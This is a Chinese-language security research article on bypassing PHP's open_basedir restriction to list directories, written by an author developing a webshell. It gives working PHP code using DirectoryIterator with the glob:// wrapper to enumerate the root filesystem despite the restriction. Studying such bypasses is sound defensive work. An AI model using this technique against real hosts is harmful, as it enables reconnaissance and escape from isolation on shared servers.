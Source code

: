 # PHP绕过open_basedir列目录的研究

0x00 前言
=====

近期由于在开发自己的webshell，所以对PHP一些已有的漏洞进行了一定的研究，并且也自己发现了部分PHP存在的安全隐患。这篇文章我来与大家分享一下自己对于PHP中open_basedir绕过并列举目录的方法总结。

0x01 open_basedir的简介
=====

Open_basedir是PHP设置中为了防御PHP跨目录进行文件（目录）读写的方法，所有PHP中有关文件读、写的函数都会经过open_basedir的检查。

Open_basedir实际上是一些目录的集合，在定义了open_basedir以后，php可以读写的文件、目录都将被限制在这些目录中。

设置open_basedir的方法，在linux下，不同的目录由“:”分割，如“/var/www/:/tmp/”；在Windows下不同目录由“;”分割，如“c:/www;c:/windows/temp”。

在现在这个各种云、虚拟主机横行的时期，人们希望open_basedir作为一个横亘在不同用户之间的屏障，有力地保障用户的主机能独立运行，但事实并非人们想象的那么简单。

我们这篇文章着重讲的将是绕过open_basedir进行目录的列举与遍历，为何我们不说具体文件的读、写，因为文件读写的洞是危害比较大的漏洞了，在php5.3以后很少有能够绕过open_basedir读写文件的方法。

0x02 利用DirectoryIterator + Glob 直接列举目录
=====

这是@/fd 脚本（http://zone.wooyun.org/content/11268）里给出的第一个方法。

DirectoryIterator 是php5中增加的一个类，为用户提供一个简单的查看目录的接口（The DirectoryIterator class provides a simple interface for viewing the contents of filesystem directories）。

glob: 数据流包装器是从 PHP 5.3.0 起开始有效的，用来查找匹配的文件路径。

结合这两个方式，我们就可以在php5.3以后对目录进行列举。在实测中，我们得知，此方法在Linux下列举目录居然可以无视open_basedir。

示例代码：

```
<?php
printf('<b>open_basedir : %s </b><br />', ini_get('open_basedir'));
$file_list = array();
// normal files
$it = new DirectoryIterator("glob:///*");
foreach($it as $f) {
    $file_list[] = $f->__toString();
}
// special files (starting with a dot(.))
$it = new DirectoryIterator("glob:///.*");
foreach($it as $f) {
    $file_list[] = $f->__toString();
}
sort($file_list);
foreach($file_list as $f){
        echo "{$f}<br/>";
}
?>

```
